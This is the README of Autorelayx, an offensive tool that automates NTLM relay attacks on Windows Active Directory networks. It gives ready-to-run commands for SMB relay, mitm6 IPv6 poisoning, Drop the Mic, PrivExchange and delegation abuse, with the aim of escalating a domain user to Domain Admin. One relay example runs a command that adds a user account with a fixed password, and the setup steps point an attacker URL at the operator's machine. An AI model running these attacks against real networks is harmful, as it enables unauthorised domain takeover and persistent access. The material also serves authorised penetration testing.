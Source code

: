 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
    sudo pipenv install --three
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i <interface> argument is optional and specifies the interface to use for both 
Responder and mitm6. The -d <domain> is optional but suggested to use to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -sf <exchange_servers.txt>```

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -s <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -s <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```

## Delegation
Requires no domain credentials. Creates a new machine account, prints the username and password of the new machine 
account, and modifies its delegation rights. Upon success, please use getST.py from impacket to relay the delegation and
 gain access to the machine account.
 
 ```python autorelayx.py --delegate -dc <domain controller IP/hostname>```

## Domain controller delegation
Requires 2 domain controllers, at least one of which must be vulnerable to PrinterBug, and a domain user's credentials. 
Forces the PrinterBug-vulnerable domain controller to authenticate to the attacker which is relayed to the other domain 
controller. A machine account is created and given delegation rights. Upon success, user can use getST.py from impacket 
to impersonate a domain admin on the newly created machine.

 ```python autorelayx.py --delegate-dc -dc <domain controller IP/hostname> -s <PrinterBug-vulnerable domain controller> -u <DOM/user:password>```
